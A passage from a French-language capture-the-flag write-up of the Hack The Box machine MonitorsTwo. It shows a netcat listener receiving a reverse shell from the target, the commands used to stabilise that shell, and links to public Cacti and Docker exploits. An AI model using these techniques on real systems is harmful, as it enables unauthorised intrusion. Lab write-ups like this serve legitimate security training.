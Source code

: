 ![image-17]

```bash
# Obtention du shell inversé
┌──(raizen㉿Raizen)-[~]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.xx.xx] from (UNKNOWN) [10.10.11.211] 36722
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```

### Mouvement latéral

Idéalement, nous devrions d'abord stabiliser notre shell. Python n'est pas installé sur la cible, donc nous ne pouvons pas utiliser le module ``pty``(``python3 import pty;pty.spawn'("/bin/bash")'``) pour y parvenir. Cependant, nous pouvons utiliser ``script`` :

```bash
# Stabilisation du shell avec script
www-data@50bca5e748b0:/var/www/html$ which script
which script
/usr/bin/script
www-data@50bca5e748b0:/var/www/html$ script -O /dev/null -q /bin/bash
script -O /dev/null -q /bin/bash
$ bash
bash
# Mise en arrière plan de la connexion 
www-data@50bca5e748b0:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 1337
# Remise en avant plan dans notre shell
┌──(raizen㉿Raizen)-[~]
└─$ stty raw -echo; fg
nc -lvnp 1337

www-data@50bca5e748b0:/var/www/html$
```

Maintenant, nous devons obtenir les valeurs des variables ``rows``(lignes) et ``cols``(colonnes) depuis notre machine d'attaque :

```bash
┌──(raizen㉿Raizen)-[~]
└─$ stty -a
speed 38400 baud; rows 51; columns 209; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```


[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png